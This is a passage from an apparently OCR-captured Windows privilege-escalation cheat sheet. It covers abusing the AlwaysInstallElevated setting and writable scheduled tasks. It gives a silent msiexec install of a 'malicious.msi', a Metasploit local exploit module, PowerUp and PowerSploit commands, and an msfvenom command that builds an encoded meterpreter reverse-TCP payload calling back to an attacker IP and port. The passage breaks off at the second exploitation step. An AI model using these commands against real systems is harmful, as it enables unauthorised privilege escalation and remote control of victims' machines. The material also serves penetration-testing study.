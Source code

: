 Fire up a handler

Execute the msi

```text
msiexec /quiet /qn /i malicious.msi
```

/quiet = Suppress any messages to the user during installation /qn = No GUI /i = Regular \(vs. administrative\) installation

Alternatively

**Metasploit**

```text
exploit/windows/local/always_install_elevated
```

**Powershell \(PowerUp\)**

```text
Write-UserAddMSI
```

## Task Scheduler

### Detection

```text
taskschd.msc
```

**Autoruns \(Sysinternals\)**

**Powershell**

```text
$schedule = new-object -com("Schedule.Service")
$schedule.connect()
$tasks = $schedule.getfolder("\").gettasks(0)
$tasks | fl
```

**Powersploit**

```text
Get-ModifiableScheduledTaskFile
```

### Exploitation

1. Generate an executable reverse shell payload

   ```text
   msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
   ```

2. Ensure Task Scheduler service works
